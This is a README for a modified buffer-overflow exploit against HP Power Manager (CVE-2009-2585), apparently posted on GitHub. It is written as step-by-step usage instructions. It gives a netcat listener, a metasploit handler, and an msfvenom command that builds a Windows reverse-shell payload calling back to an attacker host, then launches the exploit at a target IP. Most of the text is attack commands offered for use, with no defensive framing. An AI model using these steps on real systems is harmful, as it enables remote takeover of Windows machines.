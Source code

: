 # CVE2009-2585_HP_Power_Manager_BoF
It is a version modified of the original exploit by Muhammad Haidari (https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py). The modification includes a payload which allows to obtain a reverse shell to avoid to open ports in the Windows'target which the firewall's windows will be closed it.

# Usage

At firts, put a listener:
<pre> sudo nc -lvp 443 </pre>

Or using the metasploit module: 
<pre> /exploit/multi/handler with payload: windows/shell_reverse_tcp </pre>

Create the payload:
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python</pre>

Add the payload to the exploit!

Now, you can launch the exploit:
<pre>python CVE2009-2585_HP_Power_Manager_BoF.py IP </pre>
